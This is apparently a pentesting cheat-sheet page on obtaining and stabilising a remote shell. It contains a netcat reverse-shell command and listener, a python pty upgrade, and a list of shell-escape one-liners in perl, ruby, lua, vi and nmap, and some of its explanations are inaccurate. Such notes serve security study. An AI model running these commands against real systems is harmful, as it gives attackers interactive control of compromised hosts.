 # 🧛‍♂️ Stabilize & Elevate a shell

First, it's good to have knowledge about what kind of way you can pop a shell:

{% content-ref url="../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md" %}
[reverse-shell-and-bind-shell.md](../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>

If you have a nc shell tab auto complete, to up arrow and formatting problems →

**Listener:**

```
nc -nlvp 80
```

**Target:**&#x20;

```
nc -e /bin/bash 127.0.0.1 80
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First technique with python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
#OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (5).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

this relies on the target system having python

you can utilize other commands:

1.  Python:

    ```python
    echo os.system('/bin/bash')
    ```

    This Python code uses the `os.system()` function to execute `/bin/bash`.
2.  Bourne Shell:

    ```
    /bin/sh -i
    ```

    This command executes the Bourne shell `/bin/sh` in interactive mode (`-i`).
3.  Using script utility:

    ```
    script -qc /bin/bash /dev/null
    ```

    This command uses the `script` utility to run `/bin/bash` with output suppression (`-q`) and input redirection from `/dev/null`.
4.  Perl:

    ```
    perl -e 'exec "/bin/sh";'
    ```

    &#x20;In Perl, this command executes `/bin/sh` using the `exec` function.
5.  Ruby:

    ```
    exec "/bin/sh"
    ```

    This Ruby command uses the `exec` function to execute `/bin/sh`.
6.  Lua:

    ```
    os.execute('/bin/sh')
    ```

    In Lua, this command uses `os.execute()` to execute `/bin/sh`.
7.  Ruby IRB:

    ```
    exec "/bin/sh"
    ```

    This command is executed in the Ruby IRB (Interactive Ruby) shell and uses `exec` to execute `/bin/sh`.
8.  vi:

    ```
    :!bash
    ```

    In the vi editor, this command executes `bash` shell.
9.  vi (setting shell):

    ```
    :set shell=/bin/bash:shell
    ```

    This sets the shell to `/bin/bash` in vi.
10. nmap:

    ```
    !sh
    ```

    In nmap, the `!` is used to execute shell commands. Here it's running `/bin/sh`.

